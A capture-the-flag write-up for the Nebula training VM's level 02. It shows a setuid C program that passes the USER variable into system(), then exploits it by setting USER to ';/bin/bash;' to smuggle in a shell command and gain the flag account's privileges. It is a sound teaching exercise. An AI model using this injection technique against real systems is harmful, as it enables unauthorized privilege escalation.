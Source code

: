 ```yaml
---
layout: default
title: "Nebula02"
tags: Nebula
description: "Interrupting the execution flow with the command injection"
---
```



## Level 02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

## Getting the flag

We can see in the source code above that the program is using the `USER` global variable, and used it as an input.  
As before, the binary is located in the `/home/flag02/` directory.  

```
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo  is cool")
is cool

level02@nebula:/home/flag02$ getflag 
getflag is executing on a non-flag account, this doesn't count
```

Let's play with the `USER` variable to get the flag:

```
level02@nebula:/home/flag02$ export USER=';/bin/bash;'

level02@nebula:/home/flag02$ ./flag02 

about to call system("/bin/echo ;/bin/bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

We are using the `;` symbol to interrupt the execution flow of the application and instead of echoing the initial string the program will execute `/bin/bash`

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)